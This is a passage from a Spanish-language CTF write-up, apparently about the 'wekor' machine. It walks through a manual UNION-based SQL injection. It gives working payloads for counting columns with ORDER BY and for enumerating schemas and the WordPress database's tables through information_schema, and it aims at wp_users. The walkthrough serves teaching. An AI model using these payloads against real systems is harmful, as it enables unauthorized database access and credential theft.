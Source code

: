Pasamos ahora explotar este sqli de forma manual, lo podemos hacer con sqlmap pero así es más fácil, de paso aprendemos a hacerlo manualmente :)
Por si no tenés idea donde estudiar sqli, te dejo este link de la academia de portswigger: [Portswigger Academy](https://portswigger.net/web-security/sql-injection/union-attacks). El tipo de ataque que vamos a realizar es de UNION.

1. Determinamos del número de columnas requeridas en un ataque UNION de inyección SQL

    ```text

    ' order by 1,2,3-- -

    ```

    ![order by](/assets/img/posts/wekor/order by 3.png)

    Podemos ver que nos dice que el cupón no existe, que pasa ahora si ponemos 4 columnas.

    ```text

    ' order by 1,2,3,4-- -

    ```
    ![order by 4](/assets/img/posts/wekor/order by 4.png)

    Con esto identificamos que hay 3 columnas ya que nos arroja un error al colocar 4.

2. Enumeración de bases de datos

    ```text
    ' UNION SELECT 1,2,schema_name from information_schema.schemata-- -
    ```

    ![listar base de datos](/assets/img/posts/wekor/sqli1.png)

    Podemos observar la base de datos wordpress, vamos a listar sus usuarios.

3. Enumeración de Tablas

    ```text 
    ' UNION SELECT 1,2,GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='wordpress'-- -
    ```

    ![listar tablas](/assets/img/posts/wekor/sqli 2.png)

    Seleccionamos la tabla wp_users y enumeramos sus columnas.
